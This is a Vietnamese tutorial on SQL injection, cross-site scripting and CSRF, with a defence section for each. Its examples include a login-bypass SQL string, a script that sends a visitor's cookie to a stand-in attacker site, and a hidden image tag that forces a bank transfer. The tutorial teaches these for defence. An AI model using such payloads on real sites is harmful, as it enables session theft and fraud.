 # Các Lỗ hổng Bảo mật Phổ biến

## Định nghĩa

Các lỗ hổng bảo mật (Common Vulnerabilities) là những điểm yếu trong mã nguồn, thiết kế, hoặc cấu hình của một hệ thống phần mềm mà kẻ tấn công có thể khai thác để thực hiện các hành vi không mong muốn, như đánh cắp dữ liệu, phá hoại hệ thống, hoặc chiếm quyền kiểm soát. Việc hiểu và phòng chống các lỗ hổng phổ biến là trách nhiệm cơ bản của mọi kỹ sư phần mềm.

---

## Các Lỗ hổng Tiêu biểu

Dưới đây là một số lỗ hổng kinh điển và phổ biến nhất trong các ứng dụng web.

### 1. SQL Injection (Tấn công Chèn mã SQL)

#### Vấn đề là gì?

Đây là một trong những lỗ hổng nguy hiểm và lâu đời nhất. Nó xảy ra khi ứng dụng web không kiểm tra hoặc lọc dữ liệu đầu vào từ người dùng một cách cẩn thận trước khi đưa vào câu lệnh truy vấn cơ sở dữ liệu (SQL). Kẻ tấn công có thể "chèn" (inject) thêm các đoạn mã SQL độc hại của riêng mình vào dữ liệu đầu vào đó.

#### Ví dụ dễ hiểu

Giả sử một trang web có form đăng nhập. Câu lệnh SQL để kiểm tra user có thể trông như thế này:
`SELECT * FROM users WHERE username = '[username_input]' AND password = '[password_input]'`

Một người dùng bình thường sẽ nhập `username` và `password` của họ. Nhưng kẻ tấn công sẽ nhập vào ô username một chuỗi độc hại như:
`' OR '1'='1`

Khi đó, câu lệnh SQL đầy đủ sẽ trở thành:
`SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '[password_input]'`

Vì điều kiện `'1'='1'` luôn đúng, mệnh đề `WHERE` sẽ trả về `TRUE` cho tất cả các dòng trong bảng `users`, cho phép kẻ tấn công đăng nhập thành công mà không cần biết mật khẩu, thậm chí là đăng nhập với quyền của người dùng đầu tiên trong CSDL (thường là admin).

#### Cách phòng chống

- **Sử dụng Prepared Statements (Câu lệnh Tham số hóa):** Đây là phương pháp hiệu quả nhất. Thay vì nối chuỗi để tạo câu lệnh SQL, ta sử dụng các tham số đại diện (`?` hoặc `:name`). Dữ liệu đầu vào sẽ được truyền riêng và được coi là "dữ liệu" chứ không phải "mã lệnh", do đó triệt tiêu hoàn toàn khả năng chèn mã.
- **Kiểm tra và Lọc dữ liệu đầu vào (Input Validation & Sanitization):** Luôn kiểm tra dữ liệu từ người dùng (đúng định dạng, độ dài...) và loại bỏ các ký tự nguy hiểm.

---

### 2. Cross-Site Scripting (XSS)

#### Vấn đề là gì?

XSS xảy ra khi một ứng dụng web cho phép kẻ tấn công chèn các đoạn mã độc hại (thường là JavaScript) vào nội dung của một trang web, và sau đó mã này sẽ được thực thi trên trình duyệt của người dùng nạn nhân.

#### Ví dụ dễ hiểu

Hãy tưởng tượng một trang blog có phần bình luận (comment). Một người dùng bình thường sẽ viết một bình luận như "Bài viết hay quá!". Nhưng kẻ tấn công sẽ viết một bình luận chứa mã JavaScript:
`<script>alert('Bạn đã bị hack!'); document.location='http://trangweb-doc-hai.com?cookie=' + document.cookie;</script>`

Nếu trang web không lọc đầu vào cẩn thận, nó sẽ lưu đoạn mã này vào cơ sở dữ liệu và hiển thị nó ra cho tất cả những người dùng khác đọc bình luận. Khi một người dùng vô tội truy cập vào trang, trình duyệt của họ sẽ thực thi đoạn mã `<script>` này, và có thể:

- Hiển thị một thông báo giả mạo.
- Đánh cắp cookie phiên đăng nhập của họ và gửi về cho kẻ tấn công.

#### Cách phòng chống

- **Mã hóa Output (Output Encoding):** Đây là cách phòng chống chính. Khi hiển thị dữ liệu do người dùng nhập ra trang web, hãy chuyển đổi các ký tự đặc biệt của HTML thành các thực thể an toàn. Ví dụ, `<` sẽ được chuyển thành `&lt;`, `>` thành `&gt;`. Khi đó, trình duyệt sẽ hiển thị đoạn mã đó dưới dạng văn bản thuần túy thay vì thực thi nó.
- **Lọc dữ liệu đầu vào (Input Sanitization):** Loại bỏ hoặc vô hiệu hóa các thẻ HTML và JavaScript nguy hiểm từ dữ liệu đầu vào của người dùng.

---

### 3. Cross-Site Request Forgery (CSRF)

#### Vấn đề là gì?

CSRF là một kiểu tấn công lừa trình duyệt của một người dùng đã đăng nhập thực hiện một hành động không mong muốn trên một trang web mà họ tin cậy. Kẻ tấn công tạo ra một yêu cầu giả mạo và lừa người dùng thực thi nó.

#### Ví dụ dễ hiểu

Giả sử bạn đã đăng nhập vào trang ngân hàng `mybank.com`. Trang này cho phép chuyển tiền bằng một URL đơn giản như: `https://mybank.com/transfer?to=recipient&amount=100`.

Bây giờ, kẻ tấn công gửi cho bạn một email với một hình ảnh trông có vẻ vô hại, nhưng mã HTML của nó lại là:
`<img src="https://mybank.com/transfer?to=attacker&amount=1000" width="1" height="1" />`

Khi bạn mở email này, trình duyệt của bạn sẽ tự động cố gắng tải hình ảnh từ URL đó. Vì bạn vẫn đang đăng nhập vào `mybank.com`, trình duyệt sẽ gửi kèm cookie xác thực của bạn theo yêu cầu. Máy chủ của ngân hàng sẽ thấy đây là một yêu cầu hợp lệ từ bạn và thực hiện giao dịch chuyển 1000$ vào tài khoản của kẻ tấn công mà bạn không hề hay biết.

#### Cách phòng chống

- **Sử dụng Anti-CSRF Tokens:** Đây là phương pháp phổ biến nhất. Khi người dùng truy cập một form (ví dụ: form chuyển tiền), máy chủ sẽ tạo ra một chuỗi token ngẫu nhiên, duy nhất và ẩn nó trong form. Khi người dùng gửi form, token này sẽ được gửi cùng. Máy chủ sẽ kiểm tra xem token được gửi lên có khớp với token nó đã tạo cho phiên đó không. Kẻ tấn công không thể biết được token này, do đó yêu cầu giả mạo của chúng sẽ bị từ chối.
